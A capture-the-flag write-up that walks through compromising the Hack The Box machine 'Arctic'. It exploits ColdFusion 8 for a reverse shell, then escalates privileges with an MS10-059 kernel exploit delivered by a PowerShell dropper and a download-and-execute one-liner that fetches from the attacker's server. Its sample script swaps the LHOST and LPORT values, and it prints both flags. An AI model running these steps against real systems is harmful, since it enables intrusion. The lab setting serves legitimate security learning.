 # arctic

[link to the box](https://app.hackthebox.com/machines/Arctic)

1. [scanning](#scanning)
2. [exploiting](#exploiting)
3. [pwning](#pwning)

# scanning

as with anything, we start by scanning the host's ip on all ports

```bash
$ nmap -sV -Pn -p- 10.10.10.11
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
```

the service of interest here is the `fmtp?` service. fmtp is the [file multicast transport protocol](https://engineering.virginia.edu/high-speed-networks-lab-hsn/hsn-software/hsn-software-fmtp), meaning we can probably access files from there.

![fmtp](img/fmtp.png)

visiting the website shows us a root directory.

browsing around in it leads us to this link: http://10.10.10.11:8500/CFIDE/administrator/

![coldfusion admin panel](img/coldfusion.png)

# exploiting

the adobe coldfusion admin panel tells us that we are running coldfusion 8. lets look up some exploits for it:

[literally the first result](https://www.exploit-db.com/exploits/50057)

how handy, lets try running it by modifying the python script with our own local an remote ports.

![reverse shell](img/shell.png)

which worked first try. we now have a cool shell as the `arctic\tolis` user.

# pwning

first lets find the user flag by searching for it:

search the system for flag files:

```bash
> where /r c: *flag*
> where /r c: *.txt
```

the user flag is located in `C:\Users\tolis\Desktop\user.txt`

use `type` to print the contents of the file.

```bash
> type C:\Users\tolis\Desktop\user.txt
38b6a325c4a0c6c31138081b555d7c49
```

escalation time!

first, lets get an idea of what machine we are running on.

```bash
> systeminfo
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
...
System Type:               x64-based PC
```

looks like the server is an x86_64 windows 7 SP0 (equivalent) machine.

three escalation vulnerabilities we can try are MS10-092, MS10-059, and MS10-015

in this case i will be using an MS10-059 exploit from [this repo](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Source)

after compiling the sources or downloading the precompiled binary, the easiest delivery method is to send it over a [powershell script](chimichurri.ps1)

```ps1
function Invoke-Chimichurri {
        $LPORT = 10.10.14.13
        $LHOST = 42069

        $data = [System.Convert]::FromBase64String("<BASE64 ENCODED PROGRAM>")
        $exe = [System.IO.Path]::GetTempPath() + "Chimichurri.exe"
        [System.IO.File]::WriteAllBytes($exe, $data)
        & $exe $LHOST $LPORT
}
```

start a python http server to share the file, open the listener, and run the script

```bash
$ doas python3 -m http.server 80
$ nc -lvp 42069
> powershell iex "(New-Object Net.WebClient).DownloadString('http://10.10.14.13/chimichurri.ps1'); Invoke-Chimichurri"
```

![we have root](img/root.png)

using the `where` commands that we used for user, the root flag has been found.

```bash
> type C:\Users\Administrator\Desktop\root.txt
1996670b22d05104c5ebdc3914881a05
```

congrats! youre winner.
